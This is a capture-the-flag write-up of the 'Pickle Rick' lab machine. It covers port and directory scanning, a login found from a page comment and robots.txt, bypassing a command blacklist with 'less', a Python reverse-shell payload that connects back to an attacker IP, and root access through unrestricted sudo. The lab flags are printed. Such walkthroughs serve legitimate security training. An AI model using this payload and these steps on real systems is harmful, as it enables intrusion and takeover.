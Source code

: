 # Pickle Rick



## Port Scanning

```bash
nmap -T4 -sV -p- --min-rate 1000 --open 10.10.55.99 -oN port_scan.txt          

Nmap scan report for 10.10.55.99
Host is up (0.035s latency).
Not shown: 65524 closed tcp ports (reset), 9 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```



## Web Enumeration

<figure><img src="../../../.gitbook/assets/image (290).png" alt=""><figcaption></figcaption></figure>

First and foremost, intercept the web requests with Burp Suite to analyze if there is anything unusual.

<figure><img src="../../../.gitbook/assets/image (291).png" alt=""><figcaption></figcaption></figure>

We can see a comment with a user.

```
Username: R1ckRul3s
```



### Dir/File Enum

Check if there is some juicy file using gobuster tool.

{% code title="Directories" overflow="wrap" %}
```bash
gobuster dir -u http://10.10.55.99/ -w /usr/share/wordlists/SecLists_custom/raft-large-directories.txt -b 403,404

/assets               (Status: 301) [Size: 311] [--> http://10.10.55.99/assets/]
```
{% endcode %}

{% code title="Files" overflow="wrap" %}
```bash
gobuster dir -u http://10.10.55.99/ -w /usr/share/wordlists/SecLists_custom/raft-large-files.txt -b 403,404

/login.php            (Status: 200) [Size: 882]
/index.html           (Status: 200) [Size: 1062]
/robots.txt           (Status: 200) [Size: 17]
/.                    (Status: 200) [Size: 1062]
/portal.php           (Status: 302) [Size: 0] [--> /login.php]
/denied.php           (Status: 302) [Size: 0] [--> /login.php]

```
{% endcode %}

We have discovered the robots.txt that contain this string:

```
Wubbalubbadubdub
```

And a `login.php` page.

Try to login with user and possible password in robots.txt found.

<figure><img src="../../../.gitbook/assets/image (292).png" alt=""><figcaption></figcaption></figure>

We are in!



## Initial Access

Now, we have a Command Panel that allow us to execute some command to Web Server machine.

<figure><img src="../../../.gitbook/assets/image (293).png" alt=""><figcaption></figcaption></figure>

`ls` command works but when we will trying to print a file with `cat` command the portal gives me a error contains "Command disable".

This error suggests us that there is a Black List of commands. We have to search an alternative to print a file, the command `less` can help us.

<figure><img src="../../../.gitbook/assets/image (294).png" alt=""><figcaption></figcaption></figure>

This command bypasses the Black List to read a file.

{% code title="flag1" %}
```
mr. meeseek hair
```
{% endcode %}



### Spawn Rev Shell

Making this request we can obtain a reverse shell

{% code title="Payload" overflow="wrap" %}
```python
export RHOST="10.23.52.142";export RPORT=9009;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



We can found a second flag in the rick's home directory

```bash
cd /home/rick
cat 'second ingredients'

1 jerry tear
```



## Privilege Escalation

Run `linpeass.sh` to find misconfiguration.

```bash
sudo -l

User www-data may run the following commands on ip-10-10-255-84:
    (ALL) NOPASSWD: ALL
```

With this rights we can access as root in easy way

```bash
sudo su
```

And print the last flag

```bash
cat /root/3rd.txt

3rd ingredients: fleeb juice
```




